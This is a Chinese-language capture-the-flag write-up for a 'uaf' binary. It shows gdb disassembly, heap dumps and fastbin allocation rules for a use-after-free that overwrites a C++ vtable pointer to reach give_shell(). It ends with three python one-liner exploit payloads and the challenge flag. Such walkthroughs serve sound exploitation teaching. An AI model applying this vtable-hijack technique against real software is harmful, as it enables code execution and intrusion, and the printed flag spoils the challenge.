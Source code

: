 ### uaf

科普一个linux命令

`echo -en "\x66\x66\x66\x66" > test (<=="ffff")`

问题在于`Man,Woman`指针一直都在，而指向的内存 **部分可控**，并且有 **call内存** 的行为，考察的是fastbin的申请规则。

free后调用new，即可在原先位置上稍微带点限制地进行任意内容写。

先看一遍最正常的introduce的调用：
```
0x400fcd <main+265>: mov    rax,QWORD PTR [rbp-0x38] <---拿到Man的指针
0x400fd1 <main+269>: mov    rax,QWORD PTR [rax]  <---拿到Man中function所在的内存（可能叫虚表）
=> 0x400fd4 <main+272>: add    rax,0x8    <---拿到Man+8位置的东西（就是introduce()）
0x400fd8 <main+276>: mov    rdx,QWORD PTR [rax]
0x400fdb <main+279>: mov    rax,QWORD PTR [rbp-0x38]
0x400fdf <main+283>: mov    rdi,rax
0x400fe2 <main+286>: call   rdx      <----call Man->introduce()
```


到`0x400fd1`时
```
x $eax
0x204f040: 0x0000000000401570 <---Man虚函数所在的位置
```
更大的范围
```
gdb-peda$ x/20 $eax -0x40
0x1ee7000:      0x0000000000000000      0x0000000000000031
0x1ee7010:      0x0000000000000004      0x0000000000000004 <---Man的变量
0x1ee7020:      0x0000000000000000      0x000000006b63614a <---"Jack"
0x1ee7030:      0x0000000000000000      0x0000000000000021 <---Man的变量 end
0x1ee7040:      0x0000000000401570 <---Man的虚函数表      0x0000000000000019
0x1ee7050:      0x0000000001ee7028      0x0000000000000031
0x1ee7060:      0x0000000000000004      0x0000000000000004 <---Woman的变量
0x1ee7070:      0x0000000000000000      0x000000006c6c694a <---"Jill"
0x1ee7080:      0x0000000000000000      0x0000000000000021 <---Women的变量 end
0x1ee7090:      0x0000000000401550 <--Women的虚函数表     0x0000000000000015
```


到`0x400fd4`时
```
x/20 $rax-16
0x401560 <_ZTV3Man>:    0x0000000000000000      0x00000000004015d0 <--typeinfo
0x401570 <_ZTV3Man+16>: 0x000000000040117a <--give_shell()      0x00000000004012d2 <--introduce()
```

所以思路比较明确了，让Man+8的位置指向get_shell()而不是指向introduce()。

---------

先随便看看我们写入的东西在哪里吧

长度为 `24` 的时候
```
0x788040:       0x0000000000401570      0x0000000000000019
0x788050:       0x0000000000788028      0x0000000000000031
0x788060:       0x0000000000000004      0x0000000000000004
0x788070:       0x0000000000000000      0x000000006c6c694a
0x788080:       0x0000000000000000      0x0000000000000021
0x788090:       0x0000000000401550      0x0000000000000015
0x7880a0:       0x0000000000788078      0x0000000000020f61
0x7880b0:       0x0000000000000000      0x0000000000000000
0x7880c0:       0x0000000000000000      0x0000000000000000
0x7880d0:       0x0000000000000000      0x0000000000000000

0x788040:       0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x788050:       0xaaaaaaaaaaaaaaaa      0x0000000000000031
0x788060:       0x0000000000788000(这个是指向下一个free的fastbin的指针，在这里没啥用)
                0x0000000000000004
0x788070:       0x00000000ffffffff      0x000000006c6c694a
0x788080:       0x0000000000000000      0x0000000000000021
    <---这里数据并没有改变，因为是0x30大小的东西，不会被填进去（文末会有填充规则）
0x788090:       0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x7880a0:       0xaaaaaaaaaaaaaaaa      0x0000000000020f61（这个是指向堆顶的值）
0x7880b0:       0x0000000000000000      0x0000000000000000
0x7880c0:       0x0000000000000000      0x0000000000000000
0x7880d0:       0x0000000000000000      0x0000000000000000
```

所以，我们写入的前8个byte会被认为是get_shell的地址，然后call(addr(get_shell)+8)，将这8个byte改为addr(get_shell)-8就可以实现利用了。

于是我们写入`0x0000000000401568` + `0xaa*8` + `0xaa*8` 即可，当Man->introduce时候就会触发我们构造好的get_shell，之后输入 "3 2 1"，发现并没有成功，下面分析一下失败的原因。

在free过后，有几个可以填充的区域大概如下图
```
+---------+----------+-----------+------------+--------+
|junk 0x30| Man 0x20 | junk 0x30 | Woman 0x20 | so big |
+---------+----------+-----------+------------+--------+
```
经过debug，填充顺序是 Woman > Man > so big，所以我们321的话只写掉了Woman的数据，而call的时候是Man->introduce()再Woman->introduce()，前一句就会炸掉，所以利用不成功，之前还以为是 ~~Man>Woman>so big~~ 。

之后简单地改为 "3 2 2 1"即可拿到2次shell，分别是Man->introduce和Woman->introduce拿到的。当然，根据原理来看322222221也是可以的。

之后，我们来测试一下`junk 0x30`如何被利用，原理上是用 0x21~0x28的数据写的时候会申请0x30的空间，刚好可以覆盖的样子。
```x/40 $eax - 0x40
0x1c60000:      0x0000000000000000      0x0000000000000031
0x1c60010:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60020:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60030:      0xaaaaaaaaaaaaaaaa      0x0000000000000021
0x1c60040:      0x0000000000000000      0x0000000000000019
0x1c60050:      0x0000000001c60028      0x0000000000000031
0x1c60060:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60070:      0xaaaaaaaaaaaaaaaa      0xaaaaaaaaaaaaaaaa
0x1c60080:      0xaaaaaaaaaaaaaaaa      0x0000000000000021
0x1c60090:      0x0000000001c60030      0x0000000000000015
0x1c600a0:      0x0000000001c60078      0x0000000000020f61
0x1c600b0:      0x0000000000000000      0x0000000000000000
0x1c600c0:      0x0000000000000000      0x0000000000000000
0x1c600d0:      0x0000000000000000      0x0000000000000000
0x1c600e0:      0x0000000000000000      0x0000000000000000
0x1c600f0:      0x0000000000000000      0x0000000000000000
0x1c60100:      0x0000000000000000      0x0000000000000000
0x1c60110:      0x0000000000000000      0x0000000000000000
0x1c60120:      0x0000000000000000      0x0000000000000000
0x1c60130:      0x0000000000000000      0x0000000000000000
```

如图，我们覆盖成功了，同样，规则是优先覆盖右面的，然后覆盖左面的junk 0x30。


最后提供3种POC，利用的是 **Man->get_shell,Woman->get_shell,Humen->get_shell**

```
python -c "print '\x48\x15\x40\x00\x00\x00\x00\x00'+'\xaa'*90" > Woman
python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'+'\xaa'*90" > Man
python -c "print '\x88\x15\x40\x00\x00\x00\x00\x00'+'\xaa'*90" > Homan
./uaf 4~24均可 ./(Woman/Man/Human)均可
```

文末讨论一下 new char[len]是写在什么地方的。

1. fastbin最小的chunk是0x20个byte，其真正数据长度1<=len<=24；即new char[1]~new char[24]本质上是一样的。64位的最小0x20，32位的最小0x18
2. 文中Woman、Man的chunk大小是0x20，故free掉时候多出2个0x20的空间
3. 由于我们申请的是1~24，即0x20，所以会填入Woman和Man，顺序在于Man是先free掉的，Woman后free，故填充时优先填充Woman
4. 多次申请0x18的时候，整个流程为
  1. 看一眼woman，刚好，填充成功；
  2. 看一眼man，刚好，填充成功；
  3. 看一眼man之前的、之前的之前的，到头了，不成功，写入so big
  4. 同3
5. 多次申请0x28的时候，我们是为了填充文中的junk 0x30（虽然没什么卵用），顺序依然是从后到前，表现与4描述的一样
6. fastbin的原则（用来解释目前遇到过的现象）
  1. 单向链表存放
  2. 申请的时候，挨个比较`chunk`的大小，若刚好相同，则填入
  3. 若每个大小都不相同，则在`top`开一块内存


flag
`yay_f1ag_aft3r_pwning`
